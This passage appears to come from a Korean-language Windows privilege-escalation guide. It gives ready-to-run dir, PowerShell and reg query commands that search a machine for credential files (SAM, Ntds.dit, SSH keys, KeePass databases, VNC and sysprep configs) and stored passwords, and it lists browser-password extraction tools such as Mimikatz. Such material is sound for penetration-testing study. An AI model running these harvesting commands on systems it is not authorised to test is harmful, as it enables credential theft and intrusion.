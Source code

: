 제안된 모든 파일을 검색하십시오:
```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

```
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```
### RecycleBin의 자격 증명

자격 증명이 있는지 확인하기 위해 Bin을 확인해야 합니다.

여러 프로그램에 의해 저장된 **비밀번호를 복구**하려면 다음을 사용할 수 있습니다: [http://www.nirsoft.net/password\_recovery\_tools.html](http://www.nirsoft.net/password\_recovery\_tools.html)

### 레지스트리 내부

**자격 증명이 있는 다른 가능한 레지스트리 키**
```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\OpenSSH\Agent\Key"
```
[**OpenSSH 키를 레지스트리에서 추출하기.**](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

### 브라우저 기록

**Chrome 또는 Firefox**에서 비밀번호가 저장된 db를 확인해야 합니다.\
또한 브라우저의 기록, 북마크 및 즐겨찾기를 확인하여 **비밀번호가** 저장되어 있을 수 있습니다.

브라우저에서 비밀번호를 추출하는 도구:

* Mimikatz: `dpapi::chrome`
* [**SharpWeb**](https://github.com/djhohnstein/SharpWeb)
* [**SharpChromium**](https://github.com/djhohnstein/SharpChromium)
* [**SharpDPAPI**](https://github.com/GhostPack/SharpDPAPI)

### **COM DLL 덮어쓰기**

**컴포넌트 오브젝트 모델 (COM)**은 서로 다른 언어의 소프트웨어 구성 요소 간의 **상호 통신**을 허용하는 Windows 운영 체제 내에 구축된 기술입니다. 각 COM 구성 요소는 **클래스 ID (CLSID)**를 통해 **식별**되며, 각 구성 요소는 인터페이스 ID (IIDs)를 통해 식별되는 하나 이상의 인터페이스를 통해 기능을 노출합니다.
